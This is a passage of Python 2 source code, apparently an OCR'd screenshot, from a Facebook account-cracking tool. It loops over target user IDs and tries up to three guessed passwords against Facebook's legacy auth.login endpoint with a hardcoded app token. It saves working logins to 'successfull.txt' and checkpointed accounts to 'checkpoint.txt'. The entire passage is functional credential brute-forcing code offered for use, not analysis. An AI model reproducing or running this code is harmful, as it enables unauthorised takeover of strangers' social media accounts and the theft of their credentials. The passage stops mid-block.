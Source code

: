     def main(arg):
        user = arg
        try:
            os.mkdir('save')
        except OSError:
            pass

        try:
            pass1 = k
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;93m[\x1b[1;92mKgf_Ok\x1b[1;93m]  ' + k + c + user + ' \x1b[1;91m-\xe2\x8b\x84-\x1b[1;93m ' + pass1 + '\n' + '\n'
                okb = open('save/successfull.txt', 'a')
                okb.write(k + c + user + '-\xe2\x80\xa2\xe2\x97\x88\xe2\x80\xa2-' + pass1 + '\n')
                okb.close()
                oks.append(k + c + user + pass1)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;93m[Kgf_Cp] ' + k + c + user + ' \x1b[1;91m-\xe2\x8b\x84-\x1b[1;93m ' + pass1 + '\n'
                cps = open('save/checkpoint.txt', 'a')
                cps.write(k + c + user + '-\xe2\x80\xa2\xe2\x97\x88\xe2\x80\xa2-' + pass1 + '\n')
                cps.close()
                cpb.append(k + c + user + pass1)
            else:
                pass2 = blacka
                data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                q = json.load(data)
                if 'access_token' in q:
                    print '\x1b[1;93m[\x1b[1;92mKgf_Ok\x1b[1;93m]\x1b[1;93m  ' + k + c + user + ' \x1b[1;91m-\xe2\x8b\x84-\x1b[1;93m ' + pass2 + '\n' + '\n'
                    okb = open('save/successfull.txt', 'a')
                    okb.write(k + c + user + '-\xe2\x80\xa2\xe2\x97\x88\xe2\x80\xa2-' + pass2 + '\n')
                    okb.close()
                    oks.append(k + c + user + pass2)
                elif 'www.facebook.com' in q['error_msg']:
                    print '\x1b[1;93m[Kgf_Cp]\x1b[1;93m ' + k + c + user + ' \x1b[1;91m-\xe2\x8b\x84-\x1b[1;93m ' + pass2 + '\n'
                    cps = open('save/checkpoint.txt', 'a')
                    cps.write(k + c + user + '-\xe2\x80\xa2\xe2\x97\x88\xe2\x80\xa2-' + pass2 + '\n')
                    cps.close()
                    cpb.append(k + c + user + pass2)
                else:
                    pass3 = blackb
                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                    q = json.load(data)
                    if 'access_token' in q:
                        print '\x1b[1;93m[\x1b[1;92mKgf_Ok\x1b[1;93m]\x1b[1;93m  ' + k + c + user + ' \x1b[1;91m-\xe2\x8b\x84-\x1b[1;93m ' + pass3 + '\n' + '\n'
                        okb = open('save/successfull.txt', 'a')
                        okb.write(k + c + user + '-\xe2\x80\xa2\xe2\x97\x88\xe2\x80\xa2-' + pass3 + '\n')
                        okb.close()
                        oks.append(k + c + user + pass3)
                    elif 'www.facebook.com' in q['error_msg']:
                        print '\x1b[1;93m[Kgf_Cp]\x1b[1;93m ' + k + c + user + ' \x1b[1;91m-\xe2\x8b\x84-\x1b[1;93m ' + pass3 + '\n'
                        cps = open('save/checkpoint.txt', 'a')
                        cps.write(k + c + user + '-\xe2\x80\xa2\xe2\x97\x88\xe2\x80\xa2-' + pass3 + '\n')